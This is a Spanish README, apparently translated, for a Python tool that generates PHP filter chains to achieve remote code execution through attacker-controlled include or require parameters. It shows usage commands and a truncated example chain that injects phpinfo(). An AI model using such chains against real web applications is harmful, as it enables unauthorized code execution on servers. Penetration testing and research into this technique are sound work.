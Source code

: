 

# Generador de cadenas de filtros PHP

Una herramienta de línea de comandos (CLI) para generar cadenas de filtros en PHP, que te permite obtener RCE (Remote Code Execution) sin subir archivos, si tienes control total sobre el parámetro que se pasa a `require` o `include` en PHP.

## Uso

### Ayuda

```bash
$ python3 php_filter_chain_generator.py --help             
usage: php_filter_chain_generator.py [-h] [--chain CHAIN] [--rawbase64 RAWBASE64]

Generador de cadenas de filtros PHP.

opciones opcionales:
  -h, --help            Muestra este mensaje de ayuda y sale
  --chain CHAIN         Contenido que deseas generar (posiblemente necesites añadir espacios para que tu payload funcione).
  --rawbase64 RAWBASE64 Valor en base64 que deseas probar. La cadena se imprimirá en base64 por PHP, útil para depuración.
```

### Parámetros

- **chain**: Una cadena de filtros PHP que deseas inyectar.

Ejemplo de una cadena de filtros que genera `<?php phpinfo(); ?>`:

```bash
$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
[+] La siguiente cadena generará el código: <?php phpinfo(); ?>   (valor base64: PD9waHAgcGhwaW5mbygpOyA/PiAg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|...
```

La cadena `<?php phpinfo(); ?>` se inserta correctamente:
```bash
php -r "echo file_get_contents('php://filter/...');"
<?php phpinfo(); ?> ...
```

- **rawbase64**: Introduce el valor en base64 que se añadirá antes de la última decodificación. Útil para depurar tus cadenas de filtros PHP.

Ejemplo de prueba para verificar si una cadena funciona correctamente:

```bash
$ python3 php_filter_chain_generator.py --rawbase64 'cwwwwc'
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|...
```

El valor base64 `'cwwwc'` se inserta como se esperaba, sin alteraciones, por lo que la cadena es válida:
```bash
$ php -r "echo file_get_contents('php://filter/...');"
cwwwwc...
```

### Mejoras futuras

- Las cadenas de este repositorio podrían acortarse significativamente utilizando alias más cortos; sería útil implementarlo en el futuro.
- Algunas cadenas podrían simplificarse para reducir el tamaño de los filtros.
